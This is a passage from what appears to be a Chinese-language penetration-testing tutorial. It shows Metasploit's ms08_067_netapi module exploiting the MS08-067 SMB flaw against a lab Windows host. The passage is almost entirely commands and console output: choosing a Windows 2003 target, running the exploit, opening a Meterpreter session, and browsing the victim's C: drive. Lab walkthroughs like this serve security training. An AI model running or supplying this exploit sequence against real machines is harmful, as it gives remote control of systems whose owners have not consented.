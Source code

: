 ```shell script
   63  Windows 2003 SP2 English (NO NX)
   64  Windows 2003 SP2 English (NX)
   65  Windows 2003 SP2 German (NO NX)
   66  Windows 2003 SP2 German (NX)
   67  Windows 2003 SP2 Portuguese - Brazilian (NX)
   68  Windows 2003 SP2 Spanish (NO NX)
   69  Windows 2003 SP2 Spanish (NX)
   70  Windows 2003 SP2 Japanese (NO NX)
   71  Windows 2003 SP2 French (NO NX)
   72  Windows 2003 SP2 French (NX)
```
```shell script
msf6 exploit(windows/smb/ms08_067_netapi) > set target 34
target => 34
```
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_3.png)
### 8、攻击
```shell script
msf6 exploit(windows/smb/ms08_067_netapi) > exploit 

[*] 172.16.120.141:445 - Attempting to trigger the vulnerability...
[*] Started bind TCP handler against 172.16.120.141:4444
[*] Sending stage (175174 bytes) to 172.16.120.141
[*] Meterpreter session 1 opened (172.16.120.177:42069 -> 172.16.120.141:4444 ) at 2022-01-16 17:07:39 +0800

meterpreter > 
```
在meterpreter下，可以输入Linux命令，操作Windows
```shell script
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2022-01-13 13:31:20 +0800  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2022-01-13 13:31:20 +0800  CONFIG.SYS
40777/rwxrwxrwx   0       dir   2022-01-13 13:25:45 +0800  Documents and Settings
100444/r--r--r--  0       fil   2022-01-13 13:31:20 +0800  IO.SYS
100444/r--r--r--  0       fil   2022-01-13 13:31:20 +0800  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-14 20:00:00 +0800  NTDETECT.COM
```